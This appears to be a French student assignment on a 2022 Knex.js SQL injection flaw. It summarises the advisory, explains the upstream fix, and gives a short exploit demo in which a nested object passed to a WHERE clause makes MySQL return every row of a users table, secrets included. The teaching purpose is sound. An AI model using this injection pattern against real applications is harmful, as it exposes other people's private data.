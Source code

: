 # TP-CVE
# William - M2I M2 IASI

## 1 - Trouvez une CVE sortie en 2022 (score ≥ 7) 🔎
Le package Knex.JS présente une vulnérabilité limité d’injection SQL pouvant être exploitée pour ignorer la clause WHERE d’une requête SQL.
Cette vulnérabilité fonctionne seulement sur des bases de données MySQL et a été corrigée dans la version 2.4.0. Elle affecte des milliers de packages NodeJS utilisant Knex pour construire des requêtes SQL qui n'excluent pas les paramètres ayant pour type Object et Array.

https://github.com/advisories/GHSA-4jv9-3563-23j3

![](https://i.imgur.com/KlWHWpf.png)

## 2 - Trouvez sur github (ou ailleurs) le fix (commit) de la CVE et expliquez ce fix 🔨

https://github.com/knex/knex/pull/5417

```
whereBasic(statement) {
     assert(
       !isPlainObjectOrArray(statement.value),
       'The values in where clause must not be object or array.'
     );

     return super.whereBasic(statement);
   }

   whereRaw(statement) {
     assert(
       isEmpty(statement.value.bindings) ||
         !Object.values(statement.value.bindings).some(isPlainObjectOrArray),
       'The values in where clause must not be object or array.'
     );

     return super.whereRaw(statement);
   }
```

Le fix bloque tous les paramètres insérés dans la clause `WHERE` d’une requête qui sont de type `Array` ou `Object`, en utilisant les packages [loadash](https://www.npmjs.com/package/lodash) et [assert](https://www.npmjs.com/package/assert), permettant ainsi d’éviter une injection dans les paramètres.

## 3 – Proposez une démo d’exploitation de la CVE  🖥️
Prenons une table `users` ayant pour colonnes: `id`, `name` et `secret` avec deux utilisateurs: "admin" et "guest".

| id | name  | secret             |
| -- |-------|--------------------|
| 1  | admin | super confidentiel |
| 2  | guest | salut              |

```
knex('users')
    .select()
    .where({ secret: { "name": "admin" } })
    .then(res => console.log(res))
```
En exécutant le code ci-dessus, Knex va générer la requête SQL suivante: ```select * from `users` where `secret` = `name` = 'admin'```.

Avec cette syntaxe, MySQL va ignorer la clause `WHERE` et exécuter la requête suivante: ```select * from `users` ``` et donc retourner toutes les lignes de la table `users`:

```
[
  RowDataPacket { id: 1, name: 'admin', secret: 'super confidentiel' },
  RowDataPacket { id: 2, name: 'guest', secret: 'salut' }
]
```
